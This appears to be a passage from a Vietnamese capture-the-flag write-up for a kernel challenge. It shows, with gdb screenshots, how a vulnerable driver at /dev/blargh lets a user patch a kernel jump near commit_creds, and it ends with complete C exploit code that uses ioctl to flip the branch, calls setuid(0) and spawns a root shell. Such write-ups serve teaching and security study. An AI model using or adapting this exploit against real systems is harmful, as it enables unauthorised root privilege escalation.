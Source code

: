 - ta có thể xem nó trong `gdb` , ta thấy sau đó nó sẽ `test al al` và nếu bằng thì sẽ out


![image](https://hackmd.io/_uploads/H1qua0R4el.png)

- còn nếu không bằng thì nó sẽ `commit_creds` với uid mới , vậy ta sẽ patch đoạn `0xffffffff812a86a7` thành `jne` là được 

![image](https://hackmd.io/_uploads/HJbeAR04xg.png)

`84c0` sẽ là `test al al` và `74 7a` là je 

![image](https://hackmd.io/_uploads/BJ9rJJ1rgg.png)

- aslr tắt nên có thể tính `offset` 1 cách dễ dàng

![image](https://hackmd.io/_uploads/BJKglJkSxl.png)



- final

![image](https://hackmd.io/_uploads/BksW_1yreg.png)

exp: 

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <unistd.h>
typedef uint64_t u64;
typedef int64_t i64;

#define offset 0x5abb6 // troll
#define dev "/dev/blargh"
/* gef> p/x 0xffffffff81303260-0xffffffff812a86aa
$3 = 0x5abb6 */
int main() {
  int fd = open(dev, O_RDONLY);
  if (fd < 0) {
    perror("open");
    exit(-1);
  }
  i64 off = 0xffffffff812a86aa - 0xffffffff81303260;
  if (ioctl(fd, 0x40086721, off) < 0) {
    perror("ioctl");
    exit(-1);
  }
  uid_t uid = 0;
  if (setuid(uid) < 0) {
    perror("setuid");
    exit(-1);
  }
  if (getuid() != 0) {
    puts("no root!!!");
    exit(-1);
  }
  puts("[+] root right now!! ");
  execl("/bin/sh", "-sh", NULL);
}
```
